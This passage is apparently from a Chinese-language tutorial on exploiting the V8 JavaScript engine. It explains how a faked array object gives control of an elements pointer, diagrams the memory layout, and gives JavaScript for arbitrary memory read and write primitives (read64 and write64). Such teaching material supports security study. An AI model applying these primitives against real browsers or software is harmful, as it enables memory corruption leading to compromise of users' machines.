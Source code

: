 后续如果我们访问fake_object[0]，实际上访问的就是其elements指针即0x4141414141414141+0x10指向的内存内容了，而这个指针内容是我们完全可控的，因此可以写为我们想要访问的任意内存地址。利用上述一套s操作，我们就实现了任意地址读写。这一过程中的内存布局转换如下图所示：

```assembly
+---> elements +---> +-------------+
|                    |             |
|                    +-------------+
|                    |             |
|                    +-------------+   fakeObject  +-----------+
|                    |fake_array[0]|  +----------> |   map     |
|                    +-------------+               +-----------+         想 要 修 改 的
|                    |fake_array[1]|               | prototype |         内 存
|                    +-------------+               +-----------+          +-------------+
|                    |fake_array[2]|               | elements  | +------> |             |
|                    +-------------+               +-----------+          |             |
|                    |             |               |           |          |             |
|                    |             |               |           |          |             |
|    fake_array+-->  +-------------+               |           |          |             |
|                    |   map       |               |           |          |             |
|                    +-------------+               |           |          |             |
|                    |  prototype  |               +-----------+          |             |
|                    +-------------+                                      |             |
+--------------------+  elements   |                                      |             |
                     +-------------+                                      |             |
                     |   length    |                                      |             |
                     +-------------+                                      |             |
                     | properties  |                                      |             |
                     +-------------+                                      +-------------+
```

上述逻辑主要涉及了对象和elements内存地址的相对偏移、elements内存地址与实际存储内容的相对偏移，不懂的童鞋可以好好画一下，捋顺这个构造过程。后续利用都需要以这一部分为基础。

下面我们利用js语言实现上述任意地址读写的原语。

```assembly
var fake_array = [
    float_array_map,
    i2f(0n),
    i2f(0x41414141n),
    i2f(0x1000000000n),
    1.1,
    2.2,
];

var fake_array_addr = addressOf(fake_array);
var fake_object_addr = fake_array_addr - 0x40n + 0x10n;
var fake_object = fakeObject(fake_object_addr);

function read64(addr)
{
    fake_array[2] = i2f(addr - 0x10n + 0x1n);
    let leak_data = f2i(fake_object[0]);
    console.log("[*] leak from: 0x" +hex(addr) + ": 0x" + hex(leak_data));
    return leak_data;
}

function write64(addr, data)
{
    fake_array[2] = i2f(addr - 0x10n + 0x1n);
    fake_object[0] = i2f(data);
    console.log("[*] write to : 0x" +hex(addr) + ": 0x" + hex(data));    
}
```
